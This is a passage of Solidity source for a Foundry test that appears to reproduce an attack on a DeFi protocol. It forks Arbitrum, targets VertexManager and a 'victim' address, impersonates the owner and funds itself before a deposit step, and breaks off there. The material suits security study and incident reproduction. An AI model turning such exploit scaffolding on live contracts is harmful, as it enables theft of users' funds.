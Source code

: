```
        UpdateFeeRates,
        BurnLpAndTransfer
    }
}

contract ContractTest is Test {
    struct UpdatePrice {
        uint32 productId;
        int128 priceX18;
    }

    VertexManager     constant manager = VertexManager(0x052Ab3fd33cADF9D9f227254252da3f996431f75);
    IERC20Metadata    constant BTC = IERC20Metadata(0x2f2a2543B76A4166549F7aaB2e75Bef0aefC5B0f);
    IERC20Metadata    constant USDC = IERC20Metadata(0xFF970A61A04b1cA14834A43f5dE4533eBDDB5CC8);
    address           constant victim = 0x14bA533cc7dDF0C885D6431d87B22730Ce549251;
    address           constant router = 0x5E5E03AaE77C667664bA47556528a947af0A4716 ;
    uint256           constant poolId = 1; // WBTC Spot Router
    uint32            constant productId_USDC = 0;
    uint32            constant productId_BTC = 1;
    address[] public  spotTokens;
    UpdatePrice       updateInfo;
    uint256           amountBTC = 1000000;
    uint256           amountUSDC;
    uint256           btcPrice;
    uint256           usdcPrice;
    bytes[] public    txList;

  function setUp() public {
    vm.createSelectFork("arbitrum"); 

    vm.label(address(manager), "Manager");
    vm.label(address(manager.endpoint()), "Endpoint");    
    vm.label(address(BTC), "BTC");
    vm.label(address(USDC), "USDC");
    vm.label(router, "WBTC_Spot_Router");

    spotTokens = new address[](2);
    spotTokens[0] = address(BTC);
    spotTokens[1] = address(USDC);

    uint256[] memory hardcaps = new uint256[](2);
    hardcaps[0] = type(uint256).max;
    hardcaps[1] = type(uint256).max;

    vm.prank(manager.owner());
    manager.updatePoolHardcaps(1, spotTokens, hardcaps);

    amountUSDC = manager.getBalancedAmount(address(BTC), address(USDC), amountBTC);
    btcPrice = manager.getPrice(productId_BTC);
    usdcPrice = manager.getPrice(productId_USDC);

    deal(address(BTC), address(this), amountBTC);
    deal(address(USDC), address(this), amountUSDC);

    BTC.approve(address(manager), amountBTC);
    USDC.approve(address(manager), amountUSDC);

    emit log_named_decimal_uint("WBTC balance", BTC.balanceOf(address(this)), BTC.decimals());
    emit log_named_decimal_uint("USDC balance", USDC.balanceOf(address(this)), USDC.decimals());
    emit log_named_decimal_uint("WBTC price", btcPrice, 18);
    emit log_named_decimal_uint("USDC price", usdcPrice, 18);

    console.log("Step 1: Deposit into WBTC spot pool");
```